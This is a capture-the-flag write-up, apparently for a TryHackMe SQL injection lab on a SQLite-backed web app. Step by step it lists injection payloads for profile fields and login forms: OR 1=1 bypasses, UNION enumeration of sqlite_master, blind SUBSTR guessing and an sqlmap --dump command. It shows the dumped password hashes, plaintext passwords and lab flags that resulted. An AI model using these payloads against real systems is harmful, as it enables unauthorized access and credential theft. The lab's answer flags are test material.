 # SQL Injection Lab

<details>
   <summary>Introduction to SQL Injection: Part 2</summary>
 
   
- ``try to put this in email``
```
', nickName='test', email='hacked
```

> the nikname be came ``test`` and email ``hacked``

- ``want to know data base type``

```
', nickName=sqlite_version(), email='
```

> notice that the nikneame became ``3.22.0`` ==> SQLite

- ``SQLite store his tables in sqlite_master we will try to get all tables``

```
', nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'), email='
```

> found two tables ``usertable,secrets``

- ``find name of columns of table``

```
', nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='usertable'), email='
```
``found``

```
CREATE TABLE `usertable` ( `UID` integer primary key,
                           `name` varchar(30) NOT NULL,
                           `profileID` varchar(20) DEFAULT NULL,
                           `salary` int(9) DEFAULT NULL,
                           `passportNr` varchar(20) DEFAULT NULL,
                           `email` varchar(300) DEFAULT NULL,
                           `nickName` varchar(300) DEFAULT NULL,
                           `password` varchar(300) DEFAULT NULL )
```

- ``get usernames and passwords``

```
', nickName=(SELECT group_concat(name,password) FROM usertable), email='
```

> ``And booom``

``found``

```
Francois05842ffb6dc90bef3543dd85ee50dd302f3d1f163de1a76eee073ee97d851937
Michandrec69d171e761fe56711e908515def631856c665dc234a0aa404b32c73bdbc81ac
Coletteb6efdfb0e20a34908c092725db15ae0c3666b3cea558fa74e0667bd91a10a0d3
Phillipbe042a70c99d1c438cdcbd479b955e4fba33faf4f8c494239257e4248bbcf4ff
Ivan6ef110b045cbaa212258f7e5f08ed22216147594464427585871bfab9753ba25
Admin
```

> but here we want the flag so we will see colomns of another tabel ``secrets``

- ``find the flag``

```
', nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='usertable'), email='
```

``found``

```
CREATE TABLE secrets ( id integer primary key,
                       author integer not null,
                       secret text not null )
```

- ``get the flag``

```
', nickName=(SELECT group_concat(secret) FROM secrets), email='
```

``found``

```
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Integer a.,Donec viverra consequat quam,
 ut iaculis mi varius a. Phasellus.,Aliquam vestibulum massa justo, in vulputate velit ultrices ac.
 Donec.,Etiam feugiat elit at nisi pellentesque vulputate. Nunc euismod nulla.,
THM{b3a540515dbd9847c29cffa1bef1edfb}
```



  
</details>




-----------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication</summary>

``write in username``
``
' or 1=1; -- -
``
  
</details>



----------------------------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication-2</summary>

## ``first``

```
' OR 1=1-- -
```

> when logedin you will find the name of user in top right of page and also in cookie
>
> if you want to decode cookie you can use ``https://www.kirsle.net/wizards/flask-session.cgi`` or this script ``decode_cookie.py``
>
> you will find it like this :
> ```
> {
>    "challenge2_user_id": 1,
>    "challenge2_username": "admin"
> }
> ```


### ``now we will use UNION select to know number of columns that query ask for``

``back to login page and write: ``

```
' UNION SELECT NULL-- -
```
``it failed so will try: ``

```
' UNION SELECT NULL, NULL-- -
' UNION SELECT 1, 2-- -
```
``IT work now use``

⚠️⚠️⚠️

<details>
  <summary>found type of database and tabeles,....</summary>

``type of data_base``

```
' UNION SELECT sqlite_version(), NULL-- -
' UNION SELECT @@version, NULL-- -
```

> ``found that it is sqlite``

### `` now find tables in this database``

```
' UNION SELECT 1, group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'-- -
```

> found ``users``

### ``now find name of columns in table``

```
' UNION SELECT 1, sql FROM sqlite_master WHERE name='users' AND type='table'-- -
```

``found:``

```
CREATE TABLE users ( id integer primary key,
                     username text unique not null,
                      password text not null )
```


  
</details>
⚠️⚠️⚠️

> found the name in top right became ``2``


``get all basswords of users``

```
' UNION SELECT 1, group_concat(password) FROM users-- -
```

``found``

```
Logged in as rcLYWHCxeGUsA9tH3GNV,asd,Summer2019!,345m3io4hj3,THM{fb381dfee71ef9c31b93625ad540c9fa},viking123 | 
```
**yapppp!!!**


</details>



-------------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication 3 (Blind Injection)</summary>

### ``first try to know password length``

```
admin' AND length((SELECT password from users WHERE username='admin'))=1-- -
```
> change ``1`` untill login when login then this is password length you can user ``burp``
>
> found it in ``37``


### ``now try go guess every char in the password ``

```
admin' AND SUBSTR((SELECT password FROM users WHERE username='admin'), 1, 1) = CAST(X'54' as TEXT)-- -
admin' AND SUBSTR((SELECT password FROM users WHERE username='admin'), 1, 1) = a-- -
```
> first ``1`` mean first char in ``password``
>
> second ``1`` mean we use in every time one char
>
> when found first char true change first ``1`` to ``2`` and so on .....

#### ``OR`` YOU can use ``SQLmap``

```
sqlmap -u http://10.10.247.180:5000/challenge3/login \--data="username=admin&password=admin" \--level=5 --risk=3 --dbms=sqlite --technique=B --dump
```
> found this

```
Table: users
[5 entries]
+----+---------------------------------------+----------+
| id | password                              | username |
+----+---------------------------------------+----------+
| 1  | THM{f1f4e0757a09a0b87eeb2f33bca6a5cb} | admin    |
| 3  | asd                                   | amanda   |
| 2  | Summer2019!                           | dev      |
| 5  | 345m3io4hj3                           | emil     |
| 4  | viking123                             | maja     |
+----+---------------------------------------+----------+

```


   
</details>


-------------------------------------------------------------------------------------------------------------------------------------



<details>
   <summary>Vulnerable Startup: Vulnerable Notes</summary>

    
   
</details>




--------------------------------------------------------------------------------------------------------------------------------------






















---
---
---
---



# ``payloads``

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
